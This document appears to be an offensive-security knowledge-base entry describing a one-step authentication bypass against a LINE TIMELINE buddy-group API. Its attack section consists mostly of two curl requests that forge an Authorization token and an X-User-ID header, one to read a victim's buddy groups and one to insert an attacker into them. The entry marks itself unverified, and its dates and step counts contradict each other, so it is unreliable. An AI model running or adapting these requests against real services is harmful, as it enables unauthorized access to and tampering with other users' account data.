

---
tags:
  - auth-bypass
  - api
  - header-manipulation
  - line-timeline
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/curl-bypass-auth-headers]]'
platforms:
  - Web
  - API
complexity: medium
procedures:
  - '[[procedures/Bypass-Authentication-via-API-Header-Manipulation]]'
step_count: 1
techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
description: >-
  Attack chain exploiting a bug in the authentication logic of the LINE TIMELINE
  buddy group API, allowing unauthorized access to user buddy groups through
  header manipulation.
skill_level: intermediate
impact_level: high
id: e390af95-5211-4f5e-a903-954ac8b540fc
created_at: '2025-12-14T17:32:29.372Z'
updated_at: '2025-12-14T17:32:29.372Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
---
# Authentication Bypass in LINE TIMELINE Buddy Group API via Header Manipulation

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-bypass-auth-headers]]

### Target Environment

- Target Platform: Web API (LINE TIMELINE service)
- Required services/ports: HTTPS (443) for API endpoints
- Network access requirements: Internet access to LINE TIMELINE API

### Initial Access Requirements

- Credential requirements: Valid session or minimal auth token for initial request (bypassed thereafter)
- Network position: External attacker with API access
- Prior access needed: None, public-facing API

## Detailed Attack Procedures

### Step 1: Bypass Authentication and Access Buddy Groups
procedure: [[procedures/Bypass-Authentication-via-API-Header-Manipulation]]

**Objective**: Exploit the authentication bug in the buddy group API to impersonate another user and gain unauthorized access to their buddy groups, allowing inquiries and modifications.

**Instructions**: Use [[commands/curl-bypass-auth-headers]] to send a manipulated request to the buddy group API endpoint. Identify the target user's ID or session context from prior reconnaissance, then alter the authentication headers to bypass validation.

```bash
curl -X GET "https://api.line.me/timeline/buddygroups" \
  -H "Authorization: Bearer manipulated_token" \
  -H "X-User-ID: target_user_id" \
  -H "Content-Type: application/json"
```

Follow up by modifying groups if access is granted:

```bash
curl -X POST "https://api.line.me/timeline/buddygroups" \
  -H "Authorization: Bearer manipulated_token" \
  -H "X-User-ID: target_user_id" \
  -H "Content-Type: application/json" \
  -d '{"group_name": "malicious_group", "members": ["attacker_id"]}'
```

**Expected Output**: JSON response containing the target user's buddy group list or successful modification confirmation.

**Success Indicators**:
- API returns buddy group data without authentication errors
- Ability to list, query, or modify groups belonging to another user
- No 401/403 unauthorized responses

## Attack Chain Summary

### Key Achievements

1. Successful bypass of authentication logic via header manipulation
2. Unauthorized inquiry into target user's buddy groups
3. Potential modification of buddy group lists, enabling further persistence or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
